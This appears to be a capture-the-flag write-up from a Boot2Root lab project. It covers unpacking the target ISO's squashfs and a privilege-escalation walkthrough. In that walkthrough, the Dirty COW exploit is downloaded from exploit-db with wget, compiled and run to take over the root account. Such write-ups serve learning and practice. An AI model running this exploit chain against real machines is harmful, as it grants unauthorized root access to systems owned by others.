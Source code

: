 ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
```

## Unsquash

[Squash](https://s3.amazonaws.com/finecooking.s3.tauntonclud.com/app/uploads/2017/04/24170702/ING-butternut-squash-thumb1x1.jpg)

In order to better understand the file structure we can explore the ISO file by simply opening it.

There we find a .squashfs file corresponding to the compressed system.
It is possible to uncompress it in order to explore it:

```unsquashfs -f /Path/to/source/filesystem.squash.fs -d /Path/to/destination```


from there we can freely explore the system 

-----------------------------------------------------------------------------------------


## Privilege escalation

Now that we can connect as a low level user, we can attempt to use existing exploits that will grant us root access. These exploit are possible for certain versions of the kernel/OS/Architecture/distribution/Package_list running the server.

We can write download and execute external scripts in /tmp 

We used an [existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) in order to recomand exploits from [www.exploit-db.com](https://www.exploit-db.com/) 

One exploit named dirtycow 2 fits perfectly to the VM's specs

- How
  - The In The Wild exploit relied on writing to /proc/self/mem on one side of the race.
  - ptrace(PTRACE_POKEDATA) can write to readonly mappings.
  - The attack relies on racing the madvise(MADV_DONTNEED) system call while having the page of the executable mmapped in memory.

Let's fetch it from within the ssh access ```wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c```

Don't forget to chmod 755 and to compile with ```gcc -pthread dirty.c -o dirty -lcrypt```

Then just run it and provide a new password when prompted and ```su firefart```.

[Congrats](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/congrats.png)

***Congratulations! we just supplanted the root user*** 





  

